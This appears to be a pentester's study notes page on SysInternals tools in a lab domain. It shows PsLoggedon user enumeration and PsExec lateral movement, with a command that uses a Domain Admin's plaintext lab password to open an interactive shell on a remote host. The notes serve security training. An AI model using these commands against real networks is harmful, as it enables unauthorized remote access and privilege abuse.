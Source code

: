 # SysInternals

{% tabs %}
{% tab title="Logged-in Users" %}
```powershell
.\PsLoggedon.exe \\web01
```
{% endtab %}

{% tab title="PsExec" %}
**PsExec** is a SysInternals tool for remote process execution over Windows systems, often used for lateral movement by attackers. It requires:

1. Admin privileges on the taget machine
2. An accessible `ADMIN$` share
3. Enabled File and Printer Sharing.&#x20;

> _The last two requisites are met by default on modern Windows environments._ _However, PsExec is not installed by default on Windows._

Behind the scenes PsExec's workflow is as follows:

1. Writes `psexesvc.exe` to the remote machine’s `C:\Windows` directory.
2. Creates a temporary service (`psexesvc`) to execute commands.
3. Runs the specified command as a child process of `psexesvc.exe`.

> _PsExec enables lateral movement and interactive remote control, assuming administrative access, without triggering outbound connections from the target._

In the following scenario, `offsec` is local `administrator` on `CLIENT74`, getting an interactive shell as `jen` who is a `Domain Admin`.

```powershell
> .\PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd

Microsoft Windows [Version 10.0.20348.169]
C:\Windows\system32>hostname
FILES04

C:\Windows\system32>whoami
corp\jen
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Documentation" %}
{% embed url="https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite" %}
{% endtab %}
{% endtabs %}
